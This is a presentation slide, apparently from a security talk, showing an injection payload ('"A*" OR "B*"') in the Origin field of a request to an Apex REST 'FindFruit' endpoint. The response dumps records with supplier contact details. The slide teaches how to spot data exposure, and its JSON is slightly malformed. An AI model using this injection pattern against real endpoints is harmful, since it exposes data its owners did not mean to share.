

# Exploitability – Response Comparison (1)
Bring back data from API, compare this to data returned in web interface.
Payload and Response:
POST /services/apexrest/FindFruit HTTP/1.1
...
{
  "Name": "",
  "Color": "",
  "LatinName": "",
  "Supplier": "",
  "Origin": "\"A*\" OR \"B*\"",
}

HTTP/1.1 200 OK
...
[{"name":"orange","color":"orange","latinname":"ipsum factum","supplier":{"name":"universal fruit","telephone":"+441234111222,"email":united_fruit@example.com"},"origin":"Spain"},
{"name":"lime","color":"green","latinname":"lorum ipsum factum","supplier":{"name":"universal fruit","telephone":"+441234111222,"email":united_fruit@example.com"},"origin":"Bulgaria"}]